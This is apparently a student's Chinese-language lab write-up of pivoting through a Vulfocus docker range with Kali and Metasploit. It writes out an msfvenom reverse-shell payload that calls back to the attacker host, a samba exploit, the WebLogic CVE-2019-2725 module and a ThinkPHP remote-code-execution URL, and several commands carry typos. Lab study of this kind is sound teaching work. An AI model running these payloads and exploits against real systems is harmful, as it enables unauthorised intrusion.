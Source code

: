 # 网安实践：内网渗透和攻击

## 实验环境

* kali

* metasploit

* docker

* vulficus

## 实验步骤

### 步骤一 设立立足点并发现靶标2-3

1. 在攻击者主机上生成meterpreter.elf文件
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<攻击者主机IP> LPORT=<端口> -f elf > meterpreter.elf`
<br>![](./pics/手动生成meterpretershell.png)<br>
2. 上传文件（要求完成入口靶标的提权行为）
![](./pics/上传成功.png)<br>

3. 在metasploit里设置如下并`run -j`等待

```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <攻击者主机IP>
set lport <端口>
run -j
```

注意，这里的IP和端口要和生成.elf文件时设置的一样

5. 在靶机上进入入口靶标的容器，在靶机里运行meterpreter.elf
![](./pics/进入容器下载文件并运行.png)<br>

6. 返回到攻击者主机，可以看到连接成功
![](./pics/拿到meterpretershell.png)<br>

7. 升级shell
`sessions -u <会话编号>`
![](./pics/升级会话窗口.png)<br>

8. 进入新开启的会话，查看route，arp， ipconfig
`sessions -i <会话编号>`
![](./pics/查看arp.png)<br>
![](./pics/查看route.png)<br>
![](./pics/ipconfig.png)<br>

9. 设置pivot路由
![](./pics/添加pivot路由3.png)<br>

10. 扫描
```bash
search portscan
use 0
set rhosts <ip>
set ports <ports>
set threads 10
run
```
![](./pics/扫描结果1.png)<br>
扫描100%后查看存活的主机和服务，使用`hosts`和`services`
![](./pics/开放的主机和服务.png)<br>

11. 设置代理
参照[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)和视频
![](./pics/socks代理.png)<br>
![](./pics/查看1080端口服务开放情况.png)<br>
`cat /etc/proxychains4.conf` 
确认有以下配置
![](./pics/修改proxychains配置.png)<br>
并且配置浏览器代理,方便直接从浏览器访问网页
![](./pics/代理3.png)<br>

### 步骤二 攻击新发现的靶机

#### nginx

nginx
1. 设置代理curl扫描到的IP
`proxychains curl http://192.170.84.2`
![](./pics/访问第二台主机.png)<br>

2. 根据提示执行以下命令
`proxychains curl http://<目标IP>/index.php?cmd=ls%20/tmp`
![](./pics/第二个flag.png)<br>

#### samba

1. 搜索可用攻击模块并选择合适的模块，设置合适的options，进行攻击
```bash
search semba type:exploit
use exploit/linux/samba/is_know_pipname
# 设置options，可以使用show options查看需要设置的内容
# 执行攻击
run
```

2. get flag
![](./pics/getflag3.png)<br>

### 步骤三 设立pivot路由并发现靶标4-5

1. 查看第一层两台主机的ip

![](./pics/双网卡1.png)<br>
可以看到192.170.84.4这一台机器有双网卡

2. 升级对应的shell
![](./pics/升级shell1.png)<br>

3. 设置pivot路由
![](./pics/添加pivot路由3.png)<br>

### 步骤四 攻击靶标4-5

#### weblogic

```bash
search cve-2019-2725
use 0
set Proxies socks5:127.0.0.1:1080
# 设置靶机IP等
# 例：
# set rhosts 192.169.85.3
# 设置完成以后再进行攻击
run
```
会话窗口开启以后，进入shell，输入ls /tmp
![](./pics/拿到flag3.png)

#### apache

### 步骤五 发现终点靶标

同样，ip a查看第二层靶机的网卡，发现双网卡
![](./pics/发现双网卡.png)
升级shell
`sessions -u <>`
进入新启动的shell
`sessions -i <>`
设置pivot路由
`run autoroute -s 10,10,10,0/24`
![](./pics/设置pivot路由.png)<br>
![](./pics/设置pivot路由成功.png)<br>
扫描发现终点靶标
![](./pics/发现终点靶标.png)<br>

### 步骤六 攻击终点靶标

#### thinkphp

cve_2018_1002015
1. 浏览器访问以下网页
![](./pics/访问thinkphp.png)

2. 浏览器访问以下网页，执行phpinfo()
`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
![](./pics/phpinfo.png)<br>
3. 执行系统命令`ls /tmp`

`http://<目标IP>:<端口>/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20/tmp`
![](./pics/第三个flag.png)<br>

## 参考资料

[教学课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E5%BB%BA%E7%AB%8B%E7%AB%8B%E8%B6%B3%E7%82%B9%E5%B9%B6%E5%8F%91%E7%8E%B0%E9%9D%B6%E6%A0%872-4)
[教学视频【网络安全(2023) 综合实验】](https://www.bilibili.com/video/BV1p3411x7da?vd_source=e1f7434c660a15bfac556224e06c742a)
[教学视频【第六章 网络与系统渗透】](https://www.bilibili.com/video/BV1qV41127Xv?p=10&vd_source=e1f7434c660a15bfac556224e06c742a)
